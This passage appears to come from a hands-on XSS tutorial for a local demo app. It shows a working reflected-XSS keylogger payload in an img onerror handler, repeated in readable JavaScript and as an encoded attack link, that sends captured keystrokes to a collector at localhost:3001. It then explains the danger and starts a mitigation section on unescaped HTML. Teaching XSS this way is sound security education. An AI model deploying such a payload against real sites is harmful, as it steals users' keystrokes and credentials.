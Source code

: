 Now let's get even more nasty. Let's try a key-logger:
```html
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

These are very primitive examples, but I think you can see the potential.


## So Why is this Bad?

Imagine instead of localhost:3000, this was your bank's website. And you see a link in an official-looking email. What happens if you click that link? You might be running some malicious code in the context of your bank's website. Not such a big deal if you aren't logged in at that moment. But what if you are? Or what if you enter your login credentials on the page with the malicious code? Beginning to feel a bit paranoid? Good :)


## Mitigation

Let's stop scaring you for a moment and see if we can fix this. In this example project, at the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML into the page. In the `public/index.html` file, you will find the following function:
```js
function showQueryAndResults(q, results) {

	var resultsEl = document.querySelector('#results');
	var html = '';

	html += '<p>Your search query:</p>';
	html += '<pre>' + q + '</pre>';
	html += '<ul>';

	for (var index = 0; index < results.length; index++) {
		html += '<li>' + results[index] + '</li>';
	}
```